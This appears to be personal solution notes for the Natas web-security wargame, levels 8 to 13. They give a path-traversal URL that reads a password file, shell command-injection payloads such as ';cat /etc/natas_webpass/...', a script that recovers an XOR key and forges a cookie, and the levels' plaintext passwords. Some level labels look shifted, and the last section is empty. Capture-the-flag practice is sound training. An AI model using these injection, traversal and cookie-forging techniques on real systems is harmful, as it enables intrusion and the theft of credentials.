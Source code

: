 ```shell
index.php?page=/etc/natas_webpass/natas8
natas8
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q
```
## Natas9
```php
<?php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function decodeSecret($encoded) {
    return base64_decode(strrev(hex2bin($encoded)));
}

echo decodeSecret($encodedSecret);
?>
oubWYf2kBq
```
```
natas9
ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t
```
## Natas10
```shell
;ls -la;
;cat /etc/natas_webpass/natas8;
natas10
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```
## Natas11
- BAN || && ;
```shell 
-> try &(ls) -> idk but not exec
-> .* # -> grep -i .* # -> cat exec
-> `.* /etc/natas_webpass/natas11 #
natas11
UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
```
## Natas12
```python
import base64
import json
import urllib.parse

encoded_cookie = "HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg%3D"
decoded_cookie = base64.b64decode(urllib.parse.unquote(encoded_cookie)).decode(errors="ignore")

default_data = json.dumps({"showpassword": "no", "bgcolor": "#ffffff"})
key = "".join(chr(ord(c) ^ ord(d)) for c, d in zip(decoded_cookie, default_data))[:4]

new_data = json.dumps({"showpassword": "yes", "bgcolor": "#ffffff"})
new_cookie = base64.b64encode("".join(chr(ord(c) ^ ord(key[i % len(key)])) for i, c in enumerate(new_data)).encode()).decode()

```
```
natas12
yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
```
## Natas13
```shell
```